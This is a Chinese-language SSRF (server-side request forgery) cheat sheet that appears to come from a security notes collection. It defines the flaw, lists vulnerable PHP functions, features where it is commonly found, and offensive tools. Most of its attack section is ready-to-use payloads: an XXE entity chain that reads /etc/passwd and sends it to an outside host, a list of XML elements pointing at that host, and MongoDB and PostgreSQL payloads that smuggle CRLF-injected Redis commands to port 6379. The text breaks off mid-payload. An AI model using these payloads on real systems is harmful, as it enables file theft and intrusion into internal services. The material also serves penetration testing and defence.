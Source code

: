   #### 定义
	服务端请求伪造
	构造一个由服务器发出请求的漏洞
	服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制
  #### 成因
	file_get_contents()、fsockopen()、curl_exec()、fopen()、readfile()等函数使用不当会造成SSRF漏洞
  #### 挖掘
	转码服务
	在线翻译
	获取超链接的标题等内容进行显示
	请求远程服务器资源的地方，图片加载与下载(通过URL地址加载或下载图片)
	图片、文章收藏功能
	对外发起网络请求的地方，网站采集、网页抓取的地方。
	头像 (远程加载头像)
	一切要你输入网址的地方和可以输入ip的地方。
	数据库内置功能(mongodb的copyDatabase函数)
	邮件系统
	文件处理
	在线处理工具
	从URL关键字中寻找：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain
  #### 利用工具
  	https://github.com/swisskyrepo/SSRFmap
	https://github.com/tarunkant/Gopherus
	https://github.com/In3tinct/See-SURF
	https://github.com/teknogeek/ssrf-sheriff
  #### XML
	<!ENTITY % d SYSTEM "http://wuyun.org/evil.dtd">
	<!ENTITY % file system "file:///etc/passwd" >
	<!ENTITY % d SYSTEM "http://wuyun.org/file?data=%file">
	<!DOCTYPE roottag PUBLIC "-//VSR//PENTEST//EN" "http://wuyun.org/urlin">
	<xenc:AgreementMethod Algorithm= "http://wuyun.org/1">
	<xenc:EncryptionProperty Target= "http://wuyun.org/2">
	<xenc:CipherReference URI= "http://wuyun.org/3">
	<xenc:DataReference URI= "http://wuyun.org/4">
	<Reference URI="http://wuyun.org/5">
	<To xmlns="http://www.w3.org/2005/08/addressing">http://wuyun.org/to</To>
	<ReplyTo xmlns="http://www.w3.org/2005/08/addressing">
	<Address>http://wuyun.org/rto</Address>
	<input message="wooyun" wsa:Action="http://wuyun.org/ip" />
	<output message="wooyun" wsa:Action="http://wuyun.org/op" />
	<wsp:PolicyReference URI=“http://wuyun.org/pr">
	<fed:Federation FederationID="http://wuyun.org/fid">
	<fed:FederationInclude>http://wuyun.org/inc</fed:FederationInclude>
	<fed:TokenIssuerName>http://wuyun.org/iss</fed:TokenIssuerName>
	<mex:MetadataReference>
	<wsa:Address>http://wuyun.org/mex</wsa:Address>
	</mex:MetadataReference>
	<edmx:Reference URI="http://wuyun.org/edmxr">
	<edmx:AnnotationsReference URI="http://wuyun.org/edmxa">
	<xbrli:identifier scheme="http://wuyun.org/xbr">
	<link:roleType roleURI="http://wuyun.org/role">
	<stratml:Source>http://wuyun.org/stml</stratml:Source>
  #### 数据库
  ##### MongoDB
	db.copyDatabase('\r\nconfig set dbfilename ssrf\r\nquit\r\n’,'test','10.6.4.166:6379')
  ##### PostgresSQL
	SELECT dblink_send_query(
	 'host=127.0.0.1 
	dbname=quit 
	user=\'\r\nconfig set dbfilename wyssrf\r\n\quit\r\n' 
	password=1 port=6379 sslmode=disable', 